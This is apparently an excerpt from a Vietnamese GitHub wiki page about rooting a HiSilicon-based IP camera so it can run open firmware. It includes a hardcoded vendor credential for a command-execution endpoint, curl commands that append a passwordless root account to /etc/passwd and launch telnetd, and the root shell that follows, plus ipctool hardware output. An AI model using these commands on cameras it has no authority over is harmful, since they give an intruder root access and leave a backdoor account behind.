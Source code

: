 Nhận đầu ra (định dạng json):
```
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://<your_cam_ip>:80/devices/runcmd
HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 129
{
        "value":        "usr\nsys\netc\nmnt\nlib\nproc\nboot\nopt\nlinuxrc\nbin\ndev\ninit\nhome\nsbin\nnfsroot\nroot\ntmp\nvar\ndevinfo\n"
}
```

Trong FW mới nhất, họ đã xóa tệp nhị phân "telnetd", vì vậy bạn cần đặt nó trên thẻ nhớ SD:
[telnetd.zip](https://github.com/ljalves/wiki/files/7875319/telnetd.zip)


Để khởi động máy chủ, hãy sao chép tệp nhị phân telnetd vào thẻ nhớ SD và chạy:
```
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://<your_cam_ip>:80/devices/runcmd --request POST --data '{"cmd":"echo 'anyone::0:0:root:/:/bin/sh' >> /etc/passwd"}'
curl -u PpStRoNg:#%\&wL1@*tU123zv -i http://<your_cam_ip>:80/devices/runcmd --request POST --data '{"cmd":"/mnt/mmc01/telnetd &"}'
```

Tại thời điểm này, bạn sẽ có thể telnet vào camera:
```
$ telnet <your_cam_ip>
Trying <your_cam_ip>...
Connected to <your_cam_ip>.
Escape character is '^]'.
(none) login: anyone


BusyBox v1.26.2 (2019-04-16 05:35:27 PDT) built-in shell (ash)

/ #
```


### Đầu ra của [ipctool](https://github.com/OpenIPC/ipctool) (flash 8Mb):

```
/mnt/mmc01 # ./ipctool
---
chip:
  vendor: HiSilicon
  model: 3518EV300
  id: 022c40074e0038f1ee70030a0d73b5d32549ab0c81a025e3
mdio busy
mdio busy
ethernet:
  mac: "c4:3a:35:75:bf:71"
  u-mdio-phyaddr: 0
  phy-id: 0x00000000
  d-mdio-phyaddr: 0
rom:
  - type: nor
    block: 64K
    partitions:
      - name: sys
        size: 0x310000
        sha1: c890f4a1
      - name: app
        size: 0x420000
        sha1: 32c12243
      - name: cfg
```